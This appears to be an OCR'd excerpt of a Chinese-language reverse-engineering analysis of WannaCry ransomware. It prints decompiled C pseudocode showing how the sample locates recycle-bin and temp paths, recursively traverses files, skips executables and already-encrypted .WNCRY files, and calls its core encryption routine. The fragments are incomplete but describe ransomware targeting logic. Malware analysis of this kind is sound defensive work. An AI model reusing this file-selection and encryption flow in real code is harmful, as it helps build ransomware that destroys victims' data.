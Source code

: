 ```c

lpPath = 0;  

memset(&v11, 0, 0x204u);  

v12 = 0;  

GetRecyclePathOrTempPath(Value, &lpPath);// 获取C盘下临时文件和回收站路径  

GetFilePath((wchar_t *)Path, &lpPath);  //获取文件路径D:$RECYCLE0.WNCRYT  

}  

LOWORD(v6) = 0;  

CoreEncryptFun((const wchar_t *)Path, DirectoryName, 1);// 核心函数 加密操作  
```

该函数主体仍是加密文件之前的预处理部分，涉及具体的加密过程要进入
CoreEncryptFun 函数进行分析。

### 6.2.3 第三层

TraverseAndEncryptFiles(v3, DirectoryName, (int)&v15, -1, a3);// 遍历所有文件 并且加密 

第三层主要就是递归调用这个加密函数并对所有要加密文件进行遍历，下面我们继续深入

### 6.2.4 第四层

```c
FileKind = FilterPostFix(FindFileData.cFileName);// 对后缀进行过滤 返回值为1说明是exe或dll 2说明是文本文件或者图片  

v48 = FileKind;  

if ( FileKind != (wchar_t *)6   // 如果后缀为.WNCRY直接跳过  

&& FileKind != (wchar_t *)1   // 如果是exe和dll直接跳过遍历下一个文件  

&& (FileKind || FindFileData.nFileSizeHigh > 0 || FindFileData.nFileSizeLow >= 0xC800000) )  

{  

wcsncpy(&TaegetFileName, FindFileData.cFileName, 0x103u);// 将文件名拷贝到目标内存  

wcsncpy(&TargetFileFullPath, &String, 0x167u);// 将完整路径拷贝到目标内存  

dwFileSizeHigh = FindFileData.nFileSizeHigh;  

dwFileSizeLow = FindFileData.nFileSizeLow;  

sub_10003760(&v32, &v36, v33, &TargetFileFullPath);// 这个函数会操作容器将容器的计数+1  

}  

}  

}  

}  

}  

}  

```
